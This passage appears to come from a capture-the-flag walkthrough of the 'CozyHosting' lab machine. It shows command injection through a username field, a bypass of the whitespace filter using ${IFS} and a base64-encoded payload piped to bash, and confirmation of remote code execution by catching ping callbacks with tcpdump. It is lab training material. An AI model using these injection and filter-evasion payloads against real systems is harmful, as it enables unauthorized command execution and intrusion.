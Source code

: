 also with a ping command :

* username : “;ping 10.10.14.23;”

```
Location: http://cozyhosting.htb/admin?error=Username can't contain whitespaces!
```

Payload is probably good, but must not contain spaces ….

[https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)

We could use ${IFS} to replace spaces, but also we can encode the payload with base64 (usefull to bypass filters).

Let's give a try !

```shell
echo "ping 10.10.14.23" |base64
```

Result:

```text
cGluZyAxMC4xMC4xNC4yMwo=
```

This give the final payload :

```text
;echo${IFS}"cGluZyAxMC4xMC4xNC4yMwo="|base64${IFS}-d|bash;
```

with a few `${IFS}` to replace spaces, and a base64 encoded payload.

We need to dump network packets to see the ping calling back our host :

```shell
tcpdump -i tun0
```

Result :

```
IP cozyhosting.htb > 10.10.14.23: ICMP echo request, id 2, seq 1, length 64
IP 10.10.14.23 > cozyhosting.htb: ICMP echo reply, id 2, seq 1, length 64
IP cozyhosting.htb > 10.10.14.23: ICMP echo request, id 2, seq 2, length 64
IP 10.10.14.23 > cozyhosting.htb: ICMP echo reply, id 2, seq 2, length 64
IP cozyhosting.htb > 10.10.14.23: ICMP echo request, id 2, seq 3, length 64
IP 10.10.14.23 > cozyhosting.htb: ICMP echo reply, id 2, seq 3, length 64
...
```

We have a ping ! We are able to execute commands on the remote target!

## Initial access

### Exploitation

By using this RCE, we can execute a reverse shell.
